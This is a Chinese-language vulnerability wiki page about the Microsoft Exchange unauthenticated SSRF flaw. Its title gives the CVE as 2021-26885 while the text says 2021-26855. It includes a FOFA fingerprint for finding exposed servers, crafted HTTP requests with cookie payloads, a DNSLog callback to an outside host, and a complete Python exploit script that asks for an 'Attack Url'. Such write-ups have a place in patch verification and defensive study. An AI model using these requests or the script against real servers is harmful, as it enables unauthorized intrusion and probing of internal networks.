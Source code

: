 # Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

> [!NOTE]
>
> Exchange 2013 Versions < 15.00.1497.012,
>
> Exchange 2016 CU18 < 15.01.2106.013,
>
> Exchange 2016 CU19 < 15.01.2176.009,
>
> Exchange 2019 CU7 < 15.02.0721.013,
>
> Exchange 2019 CU8 < 15.02.0792.010

# FOFA

> [!NOTE]
>
> icon_hash="1768726119"

## 漏洞复现

与 SSRF 有关的文件

```
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 **BackEndServer** 使用的类关于 **BEResourceRequestHandler** 的改变

![](http://wikioss.peiqi.tech/vuln/exchan-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁

![](http://wikioss.peiqi.tech/vuln/exchan-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

查看调用**BERsourceRequestHandler** 的方法 **SelectHandlerForUnauthenticatedRequest** 查找相关路径 **ProxyMoudle**

![](http://wikioss.peiqi.tech/vuln/exchan-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 **X-BEResponse**, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为**/etc/y.js** 这样类似不存在的文件

参数 **X-BEResource** 解析在 **BackEndServer.FromString**

跟踪 **BackEndServer**对象， 其中该对象使用 **ProxyRequestHandler** 向主机发送请求

![](http://wikioss.peiqi.tech/vuln/exchan-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里进行SSRF的漏洞复现，首先访问 **/ecp/PeiQi.js** 文件

并设置Cookie **X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true**

```
GET /ecp/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

![](http://wikioss.peiqi.tech/vuln/exchan-5-1615618353720.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
响应包为:
NegotiateSecurityContext failed with for host 'peiqi_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```
GET /owa/auth/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```

> [!NOTE]
>
> Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
>
> 将其中的 Dnslog换成自己的

![](http://wikioss.peiqi.tech/vuln/exchan-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

确定收到了由服务端发送的请求，存在SSRF漏洞

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Microsoft Exchange多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mDnslog      >>> xxxx.dnslog.cn                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = "https://" + target_url + "/ecp/PeiQi.js"
    headers = {
        'Cookie': 'X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true'
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 500 and 'NegotiateSecurityContext' in response.text and 'peiqi_wiki' in response.text:
            print("\033[32m[o] 目标 {} 存在SSRF漏洞， 输入Dnslog地址进一步检测....\033[0m".format(target_url))
            dnslog = str(input("\033[35mDnslog >>> \033[0m"))
            POC_2(target_url, dnslog)
        else:
            print("\033[31m[x] 目标 {} 不存在SSRF漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, dnslog):
    vuln_url = "https://" + target_url + "/owa/auth/PeiQi.js"
    headers = {
        'Cookie': 'X-AnonResource=true; X-AnonResource-Backend={}/ecp/default.flt?~3; X-BEResource={}/owa/auth/logon.aspx?~3;'.format(dnslog, dnslog)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 请查看 Dnslog：{} 响应....\033[0m".format(dnslog))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/exchan-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Microsoft Exchange SSRF漏洞 CVE-2021-26885

![](http://wikioss.peiqi.tech/vuln/exchan-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

![](http://wikioss.peiqi.tech/vuln/exchan-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)